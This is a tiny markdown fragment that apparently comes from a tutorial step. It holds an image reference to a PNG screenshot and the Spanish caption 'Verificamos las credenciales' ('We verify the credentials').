

Verificamos las credenciales


